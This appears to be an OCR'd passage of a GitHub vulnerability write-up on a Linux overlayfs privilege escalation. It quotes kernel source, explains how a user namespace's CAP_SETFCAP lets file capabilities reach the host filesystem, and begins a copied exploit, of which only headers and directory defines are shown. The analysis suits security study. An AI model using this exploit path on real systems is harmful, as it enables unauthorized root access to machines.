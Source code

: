                 static struct super_block *alloc_super(struct file_system_type *type, int flags,
                                                struct user_namespace *user_ns)
                {
                        struct super_block *s = kzalloc(sizeof(struct super_block),  GFP_USER);
                        static const struct super_operations default_op;
                        int i;

                        if (!s)
                                return NULL;

                        INIT_LIST_HEAD(&s->s_mounts);
                        s->s_user_ns = get_user_ns(user_ns);
                }


As we can see the 's->s_user_ns' is initialized from the process of 'mount' which in the exploit is a new user ns which has has full capabilities. Here this 'inode' is the inode which overlayfs create, its superblock's s_user_ns is a new user ns. And a new user ns has all of the CAP_SETFCAP. So here 'ns_capable' will return 0 which means the process has the 'CAP_SETFCAP' in this new user ns.

Return to the call chain of setxattr syscall, after 'cap_convert_nscap' check permission passed, the 'vfs_setxattr' is called first time. Notice, the first time of calling 'vfs_setxattr' is using the overlayfs layer's dentry. Then goes to the upper dir's 'vfs_setxattr', as the upperdir is a directory in the host filesystem (ext4), so the ext4 filesystem's setxattr(ext4_xattr_set) will be called and finally the extend attributes will be written to the upperdir file.


<h3> Exploit </h3>

Following exploit is copied from the [ssd-disclosure](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/). 


                #define _GNU_SOURCE
                #include <stdio.h>
                #include <stdlib.h>
                #include <string.h>
                #include <unistd.h>
                #include <fcntl.h>
                #include <err.h>
                #include <errno.h>
                #include <sched.h>
                #include <sys/types.h>
                #include <sys/stat.h>
                #include <sys/wait.h>
                #include <sys/mount.h>

                //#include <attr/xattr.h>
                //#include <sys/xattr.h>
                int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


                #define DIR_BASE    "./ovlcap"
                #define DIR_WORK    DIR_BASE "/work"
                #define DIR_LOWER   DIR_BASE "/lower"
                #define DIR_UPPER   DIR_BASE "/upper"
                #define DIR_MERGE   DIR_BASE "/merge"
                #define BIN_MERGE   DIR_MERGE "/magic"
                #define BIN_UPPER   DIR_UPPER "/magic"
